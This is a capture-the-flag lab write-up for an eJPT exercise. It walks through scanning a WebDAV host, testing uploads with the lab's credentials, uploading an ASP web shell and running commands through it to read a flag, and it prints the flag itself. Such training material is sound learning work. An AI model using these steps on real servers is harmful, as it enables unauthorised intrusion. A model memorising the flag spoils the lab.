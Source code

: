 # Vulnerability Assessment - WebDAV Exploitation Walkthrough

This document outlines a step-by-step walkthrough for exploiting a vulnerable WebDAV service to retrieve a flag during the **eJPT Vulnerability Assessment** lab.

> **Lab URL:**
> [https://my.ine.com/CyberSecurity/courses/bf9be146-3a69-4b0e-bade-477da0002943/assessment-methodologies-vulnerability-assessment/lab/567b1f4c-482b-30b0-9353-f9ebf8a78688](https://my.ine.com/CyberSecurity/courses/bf9be146-3a69-4b0e-bade-477da0002943/assessment-methodologies-vulnerability-assessment/lab/567b1f4c-482b-30b0-9353-f9ebf8a78688)

---

## 📁 Challenge Details

* **Category:** Vulnerability Assessment
* **Target:** `demo.ine.local`
* **Goal:** Exploit WebDAV to retrieve the final flag

---

## 🔎 Step 1: Initial Port Scan

We start with a basic port scan using Nmap:

```bash
nmap demo.ine.local
```

![Step 1](./Screenshots/1.png)

Identified services:

* HTTP on port 80
* SMB on ports 139 and 445
* MySQL on 3306
* RDP on 3389

---

## 🔍 Step 2: Web Enumeration with Nmap Scripts

We enumerate the HTTP service with the `http-enum` script:

```bash
nmap --script http-enum -sV -p 80 demo.ine.local
```

![Step 2](./Screenshots/2.png)

Revealed the presence of `/webdav/` directory, which is potentially vulnerable.

---

## ⚙️ Step 3: Check WebDAV with `davtest`

First, test if the DAV connection is allowed:

```bash
davtest --url http://demo.ine.local/webdav
```

![Step 3](./Screenshots/3.png)

It responded as **open but unauthorized**.

---

## 🔐 Step 4: Authenticated WebDAV Test

Now try authenticated testing using provided credentials:

```bash
davtest --auth bob:password_123321 --url http://demo.ine.local/webdav
```

![Step 4](./Screenshots/4.png)

This succeeded in creating a directory and uploading various file types. The server allowed execution of `.txt`, `.html`, and `.asp`.

---

## 📊 Step 5: Review Summary Output

We review which files executed successfully:

![Step 5](./Screenshots/5.png)

`.txt`, `.html`, and `.asp` file types were confirmed executable.

---

## 🔧 Step 6: Upload Web Shell with Cadaver

Now we use `cadaver` to interactively upload a reverse shell:

```bash
cadaver http://demo.ine.local/webdav
```

![Step 6](./Screenshots/6.png)

Uploaded: `webshell.asp`

---

## 🔎 Step 7: Authenticate in Browser

Visit the WebDAV directory in Firefox:

![Step 7](./Screenshots/7.png)

Login with username: `bob`, password: `password_123321`

---

## 🔢 Step 8: Command Execution via Web Shell

We access the shell and execute:

```bash
http://demo.ine.local/webdav/webshell.asp?cmd=whoami
```

![Step 8](./Screenshots/8.png)

Successfully ran remote commands as `iis apppool\\defaultapppool`

---

## 📚 Step 9: Locate the Flag

Now we browse the system to locate the flag file:

```bash
cmd=dir C:\
```

![Step 9](./Screenshots/11.png)

Found file: `flag.txt`

Retrieve the flag with:

```bash
cmd=type C:\flag.txt
```

![Step 10](./Screenshots/12.png)

**FLAG:** `9cc175b9c0f1b6a831c399e269772661`

---

## 🕊️ Summary

This challenge involved:

1. Scanning for open services
2. Discovering and verifying WebDAV access
3. Exploiting file upload and execution via DAV
4. Uploading and executing a web shell
5. Reading the flag from the system drive

---

**Disclaimer:** This test was conducted in a controlled lab environment. Never use these techniques on systems you do not own or have explicit permission to test.

---

**🔗 [Back to eJPT CTF Challenges Repo](https://github.com/sara5521/eJPT-CTF-Challenges)**

